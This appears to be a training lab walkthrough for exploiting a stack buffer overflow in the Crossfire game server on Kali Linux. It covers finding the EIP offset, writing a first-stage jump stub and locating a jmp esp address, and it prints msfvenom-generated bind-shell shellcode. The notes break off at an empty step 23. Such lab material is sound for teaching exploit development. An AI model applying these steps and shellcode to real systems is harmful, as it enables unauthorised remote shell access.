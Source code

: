 # Linux Buffer Overflow

## Setup

1. Setup your IPTABLE rules as below, this stops traffic from other hosts and only allows localhost traffic

   ```
   root@kali:~# iptables -A INPUT -p TCP --destination-port 13327 \! -d 127.0.0.1 -j DROP
   root@kali:~# iptables -A INPUT -p TCP --destination-port 4444 \! -d 127.0.0.1 -j DROP
   ```

2. Load the vunerable application (crossfire) using edb (Evans DB) `root@kali:~# edb --run /usr/games/crossfire/bin/crossfire` 

3. The application is loaded in a paused state, so hit the run button twice

4. We can then crash the programme using the buffer exploit `crossfire-poc1.py`, which will display an error message in EDB and you can see that the EIP register has been overflowed with `A` values

5. We now need to find which bytes are overflowing into the EIP, we can do this using the pattern tool in metasploit, which creates a required number of unique bytes (the number of `A` values the script is injecting

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# updatedb
    root@kali:~/Desktop/lessons/linuxbuffer# locate pattern_create
    /usr/share/metasploit-framework/tools/pattern_create.rb
    root@kali:~/Desktop/lessons/linuxbuffer# /usr/share/metasploit-framework/tools/pattern_create.rb 4379
    ```

6. Update the script, see `crossfire-poc2.py` with the new exploit code and restart the application/debugger

7. When you run the script now, you will get the same overflow message but now with different bytes, we can use these bytes to locate the point at which EIP was overflowed

8. Get the ASCII value of the hex displayed in the error message `echo HEXHERE | xxd -r -p` or just use the metasploit pattern offset tool

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# /usr/share/metasploit-framework/tools/pattern_offset.rb 46367046
    [*] Exact match at offset 4368
    ```

9. Rewrite your script to confirm this, see `crossfire-poc3.py`

10. Restart and rerun the debugger/app/script

11. You can now see our EIP is overflown with `x42` or `B` so we know we are in the right place

12. We then look at all the registers i.e `EAX, EBX, ECX` looking for one that points to a part of our overflow. We find that `ESP` is pointing to the end of our overflow with 9 bytes remaining

13. When testing we find that we can't increase beyond 9 bytes as the programme crashes in a completely different way, we will have to use a `first stage shellcode`

14. During testing we noted that the `EAX` register points to the start of our input including the `setup sound` part, this made it unsuitable for injecting the shell but we can manipulate the `EAX` register to skip over the first few bytes.

15. First we need to check for bad characters, these are characters that effect the programme behaviour adversily, we do this using `crossfire-poc4.py` and repeatadly sending the exploit and checking the memory for any characters that mangle the input or disappear.

16. We then craft an exploit using `NASM` to add 12 bytes to EAX then jump to it

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# locate nasm_shell
    /usr/share/metasploit-framework/tools/nasm_shell.rb
    root@kali:~/Desktop/lessons/linuxbuffer# /usr/share/metasploit-framework/tools/nasm_shell.rb
    nasm > add eax,12
    00000000  83C00C            add eax,byte +0xc
    nasm > jmp eax
    00000000  FFE0              jmp eax
    ```

15. We copy the hex code (`83C00C` and `FFE0`) into our exploit, see `crossfire-poc5.py`

16. Using the EDB plugin "opcode searcher" we look for the code `jmp esp` and note down the address

17. We then replace the B's that were previously going to the EIP with the address of the `jmp esp` command, see `crossfire-poc6.py`. 

18. Restart edb and the application, but before starting place a breakpoint on the address with the `jmp esp` command. Once done start as normal and send payload

19. When the breakpoint is hit (confirm the correct address), we check the ESP register and can see that it is pointing to our first stage shell code

20. Press F8 to take the jump further confirming the above. Whilst watching where EAX is pointing we now run the commands step by step (press F8 again), we can see that EAX updates to the start of our `A` values. Pressing F8 once more redirects code execution to the start of our `A`s

21. Using `msfvenom` generate shellcode to replace our A values with

    ```
    root@kali:~/Desktop# msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c b "\x00\x20" --platform linux -a x86 -e x86/shikata_ga_nai
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 105 (iteration=0)
    unsigned char buf[] = 
    "\xdb\xcc\xd9\x74\x24\xf4\xbd\xb0\x32\x2d\xb5\x5a\x29\xc9\xb1"
    "\x14\x83\xc2\x04\x31\x6a\x15\x03\x6a\x15\x52\xc7\x1c\x6e\x65"
    "\xcb\x0c\xd3\xda\x66\xb1\x5a\x3d\xc6\xd3\x91\x3d\x7c\x42\x78"
    "\x55\x81\x7a\x6d\xf9\xef\x6a\xdc\x51\x79\x6b\xb4\x37\x21\xa1"
    "\xc9\x3e\x90\x3d\x79\x44\xa3\x58\xb0\xc4\x80\x14\x2c\x09\x86"
    "\xc6\xe8\xfb\xb8\xb0\xc7\x7b\x8f\x39\x20\x13\x3f\x95\xa3\x8b"
    "\x57\xc6\x21\x22\xc6\x91\x45\xe4\x45\x2b\x68\xb4\x61\xe6\xeb";
    ```

22. Add this code to the start of our exploit, ensuring that you componsate for the number of bytes added (remove `A`'s from the string). As seen in `crossfire-poc7.py`

23. 


